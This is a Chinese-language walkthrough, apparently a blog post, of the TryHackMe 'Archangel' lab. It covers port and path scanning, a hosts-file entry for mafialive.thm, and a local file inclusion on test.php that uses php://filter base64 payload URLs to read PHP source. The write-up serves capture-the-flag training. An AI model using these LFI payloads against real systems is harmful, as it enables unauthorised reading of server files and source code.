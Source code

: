 # Archangel Writeup
> url : https://tryhackme.com/room/archangel

IP : 10.10.163.60

## Recon
- 起手式，掃 Port `rustscan -a 10.10.163.60`
	- ![](https://i.imgur.com/DkyiPwB.png)
	- 80 , 22
- 掃路徑 `python3 dirsearch.py -u http://10.10.163.60/ -e all`
	- ![](https://i.imgur.com/VzsbcR0.png)

- 觀察網頁首頁，發現裡面有 `/flag`
	- ![](https://i.imgur.com/ZEE1LMm.png)
	- 點進去後 ......
	- ![](https://i.imgur.com/xjq9ave.png)
	- 幹...
	- 用 curl 觀察
		- ![](https://i.imgur.com/t50dIAx.png)
		- 他會自動跳轉到這邊 https://www.youtube.com/watch?v=dQw4w9WgXcQ
	
## Dfferent Hostname
- 題目提示 : `Find a different hostname` 
	- ![](https://i.imgur.com/qUlq0LJ.png)
 	- 可以觀察 `mafialive.thm`

- `sudo vim /etc/hosts`
	- 加上這一行 `10.10.163.60 mafialive.thm`
	- 接下來到 http://mafialive.thm/
	- ![](https://i.imgur.com/KYuqXWR.png)
	- 就拿到了 flag
- 再掃一次路徑`python3 dirsearch.py -u http://mafialive.thm/ -e all`
	- `http://mafialive.thm/robots.txt`
		- ![](https://i.imgur.com/sAPv2Gu.png)
		- `/test.php`
			- http://mafialive.thm/test.php
			- ![](https://i.imgur.com/N9Ec4bZ.png)

- 觀察按下按鈕後的網址
	- http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
	- ![](https://i.imgur.com/XPlzuRQ.png)
	- 感覺很明顯可以 LFI
		- 嘗試 Base64 Payload 
			- http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
			- 成功 !!
			- 觀察 test.php 原始碼
				- http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
